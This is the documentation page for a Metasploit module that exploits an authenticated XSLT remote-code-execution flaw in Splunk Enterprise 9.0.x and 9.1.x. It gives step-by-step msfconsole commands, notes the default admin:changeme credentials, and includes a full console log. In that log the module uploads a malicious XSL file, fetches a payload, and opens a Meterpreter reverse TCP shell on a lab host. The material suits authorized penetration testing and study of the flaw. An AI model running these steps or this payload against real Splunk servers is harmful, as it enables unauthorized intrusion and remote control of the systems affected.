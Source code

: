 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution (RCE) vulnerability in Splunk Enterprise.
The vulnerability affects versions 9.0.x prior to 9.0.7 and 9.1.x before 9.1.2.
The exploit takes advantage of a flaw in the XSLT transformation functionality of Splunk Enterprise
and requires valid credentials to be executed successfully, with the default credentials often being admin:changeme.

## Verification Steps
1. **Start Metasploit**: Launch `msfconsole` in your Metasploit framework.
2. **Select the Module**: Use the module with the command `use exploit/unix/http/splunk_xslt_authenticated_rce`.
3. **Disable AutoCheck**: Optionally, you can disable the automatic vulnerability check with `set AutoCheck false`.
4. **Set RHOSTS**: Define the target host (e.g., `set rhosts [target_ip_or_hostname]`).
5. **Set Credentials**: Provide valid Splunk credentials (username and password).
6. **Execute the Exploit**: Use the `exploit` command to run the exploit.

## Options
- **USERNAME**: The username for authentication.
- **PASSWORD**: The password for authentication.

## Scenarios
```
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > options

Module options (exploit/unix/http/splunk_xslt_authenticated_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  changeme         yes       Password for Splunk
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8000             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       Username for Splunk
   VHOST                      no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      KcOBAvuTm        no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > set rhosts chocapikk.lab
rhosts => chocapikk.lab
msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > set AutoCheck false
AutoCheck => false
msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[+] Successfully authenticated on the Splunk instance
[*] Extracting CSRF token from cookies
[+] CSRF token successfully extracted: 6022199423440420518
[+] Malicious file uploaded successfully
[*] Sending job search request to /en-US/splunkd/__raw/servicesNS/admin/search/search/jobs?output_mode=json
[*] Triggering XSLT transformation at /en-US/api/search/jobs/1701181058.135/results?xsl=/opt/splunk/var/run/splunk/dispatch/1701181058.134/shell.xsl
[+] XSLT transformation triggered successfully
[*] Executing reverse shell command at /en-US/splunkd/__raw/servicesNS/admin/search/search/jobs
[+] Reverse shell command executed successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 172.17.0.2:39376) at 2023-11-28 15:17:38 +0100

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 6.4.10-060410-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Exploitation Process
1. **Authentication**: The module authenticates using provided credentials.
2. **CSRF Token Extraction**: Extracts a CSRF token from the Splunk server for subsequent requests.
3. **Malicious File Upload**: Uploads a malicious XSL file to the server.
4. **Triggering XSLT Transformation**: Initiates an XSLT transformation to execute the payload.
5. **Executing Payload**: Executes the payload, resulting in a reverse shell or similar access.

### Expected Results
Upon successful exploitation, the attacker gains remote code execution capabilities on the target Splunk server,
usually as the user running the Splunk service.

### Important Notes
- This exploit requires valid credentials for successful execution.
